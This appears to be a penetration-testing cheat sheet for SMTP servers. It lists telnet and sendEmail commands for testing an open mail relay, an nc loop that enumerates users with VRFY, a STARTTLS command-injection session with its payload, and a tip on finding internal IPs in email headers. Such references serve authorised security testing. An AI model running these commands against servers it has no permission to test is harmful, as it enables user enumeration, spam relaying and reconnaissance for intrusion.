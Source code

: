 # SMTP


#### SMTP relay, EXPN/VRFY command enabled
```
telnet <target IP> 25
helo root
mail from: root@target.com
rcpt to: jsmith@gmail.com
DATA
Subject: Testing open mail relay.
Testing SMTP open mail relay. Have a nice day.
.
quit
```

```

for x in $(cat users.txt); do echo VRFY $x | nc -nv -w 1 <target IP> 25 2>/dev/null | grep ^’250’; done
```

```

sendEmail -f root@target.com -t jsmith@gmail.com -u Testing open mail relay. -m Testing SMTP open mail relay. Have a nice day. -s <target IP>
```

#### SMTP Service STARTTLS Plaintext Command Injection
```
telnet <target IP> 25
S: <waits for connection on TCP port 25>
C: <opens connection>
S: 220 mail.target.com SMTP service ready
C: EHLO mail.ietf.org
S: 250-mail.target.com offers a warm hug of welcome
S: 250 STARTTLS
C: STARTTLS
S: 220 Go ahead
```


###  Internal IPs
```
When viewing test email, view the full headers and look for internal IPs and host names.
```

```

STARTTLS\r\nRSET\r\n

And the server sent the following two responses:
220 Server ready Ready to start TLS
250 +OK Reset
```

